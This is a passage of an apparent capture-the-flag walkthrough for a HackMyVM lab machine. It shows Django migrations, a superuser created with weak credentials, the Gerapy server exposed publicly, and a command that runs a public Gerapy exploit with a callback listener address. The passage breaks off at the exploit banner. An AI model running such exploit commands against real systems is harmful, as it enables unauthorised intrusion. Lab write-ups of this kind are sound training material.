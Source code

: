 ```bash
  Applying core.0002_auto_20180119_1210... OK
  Applying core.0003_auto_20180123_2304... OK
  Applying core.0004_auto_20180124_0032... OK
  Applying core.0005_auto_20180131_1210... OK
  Applying core.0006_auto_20180131_1235... OK
  Applying core.0007_task_trigger... OK
  Applying core.0008_auto_20180703_2305... OK
  Applying core.0009_auto_20180711_2332... OK
  Applying core.0010_auto_20191027_2040... OK
  Applying django_apscheduler.0001_initial... OK
  Applying django_apscheduler.0002_auto_20180412_0758... OK
  Applying django_apscheduler.0003_auto_20200716_1632... OK
  Applying django_apscheduler.0004_auto_20200717_1043... OK
  Applying django_apscheduler.0005_migrate_name_to_id... OK
  Applying django_apscheduler.0006_remove_djangojob_name... OK
  Applying django_apscheduler.0007_auto_20200717_1404... OK
  Applying django_apscheduler.0008_remove_djangojobexecution_started... OK
  Applying sessions.0001_initial... OK
sandra@university:~$ 

```
Next we need to create a superuser.
```bash
sandra@university:~$ sudo /usr/local/bin/gerapy createsuperuser
Username (leave blank to use 'root'): admin
Email address: admin@admin.local
Password: 
Password (again): 
The password is too similar to the username.
This password is too short. It must contain at least 8 characters.                                                  
This password is too common.                                                                                        
Bypass password validation and create user anyway? [y/N]: Y                                                         
Superuser created successfully.
sandra@university:~$ 
```
We shoul drun Gerapy in public so we can exploit it from our machine.
```bash
sandra@university:~$ sudo /usr/local/bin/gerapy runserver 0.0.0.0:8080
Watching for file changes with StatReloader
Performing system checks...

System check identified no issues (0 silenced).
INFO - 2023-09-16 02:48:37,654 - process: 1182 - scheduler.py - gerapy.server.core.scheduler - 102 - scheduler - successfully synced task with jobs with force
September 16, 2023 - 02:48:37
Django version 2.2.24, using settings 'gerapy.server.server.settings'
Starting development server at http://0.0.0.0:8080/
Quit the server with CONTROL-C.

```
Let's try to exploit Gerapy with the exploit what we have copied to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/University]
└─$ python3 50640.py -t $ip -p 8080 -L 10.0.2.15 -P 8787
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

```